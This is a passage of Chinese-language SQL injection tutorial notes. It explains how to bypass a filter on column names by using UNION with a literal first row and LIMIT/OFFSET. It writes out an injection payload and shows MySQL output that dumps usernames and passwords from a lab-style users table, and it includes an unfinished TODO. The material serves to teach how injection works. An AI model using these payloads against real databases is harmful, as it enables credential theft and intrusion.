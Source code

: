 使用`mysql`数据库的`innodb_index_stats`和 `innodb_table_stats`两张表。

https://dba.stackexchange.com/questions/54608/innodb-error-table-mysql-innodb-table-stats-not-found-after-upgrade-to-mys

？？？？？？找不到这张表TODO：？？？？？？？？

https://www.cnblogs.com/upfine/p/16496021.html

## §4.9 绕过列名

假设`users`表内含有`id`、`username`、`password`这三列，SQL语句为`select * from users where username=$username`，但是`$username`过滤了这三个列名，所以我们不能再`' and 1=0 union select group_concat('password'),2,3`。

### §4.9.1 子查询创建新列名

当我们使用SELECT子句且未指定FROM子句的时候，SQL将会把列名也作为这一列的内容：

```sql
mysql> select 'abc',123,000;
    +-----+-----+-----+
    | abc | 123 | 000 |
    +-----+-----+-----+
    | abc | 123 |   0 |
    +-----+-----+-----+
    1 row in set (0.00 sec)
```

在保证列数相同的前提下，使用UNION子句不会改变返回结果的列名。为了过滤掉第一行无用的数据，我们使用LIMIT或OFFSET子句：

```sql
mysql> select 'abc',123,000 union select * from users;
    +-----+----------+-------+
    | abc | 123      | 000   |
    +-----+----------+-------+
    | abc | 123      | 0     |
    | 1   | Dumb     | admin |
    | 2   | Angelina | root  |
    +-----+----------+-------+
    3 rows in set (0.00 sec)
    
mysql> select 'abc',123,000 union select * from users limit 1,999999; # 过滤第0行,取后续足够多的行
    +-----+----------+-------+
    | abc | 123      | 000   |
    +-----+----------+-------+
    | 1   | Dumb     | admin |
    | 2   | Angelina | root  |
    +-----+----------+-------+
    2 rows in set (0.00 sec)
    
mysql> select 'abc',123,000 union select * from users limit 999999 offset 1; # 从1行开始，后取足够多的行
    +-----+----------+-------+
    | abc | 123      | 000   |
    +-----+----------+-------+
    | 1   | Dumb     | admin |
    | 2   | Angelina | root  |
    +-----+----------+-------+
    2 rows in set (0.00 sec)
```
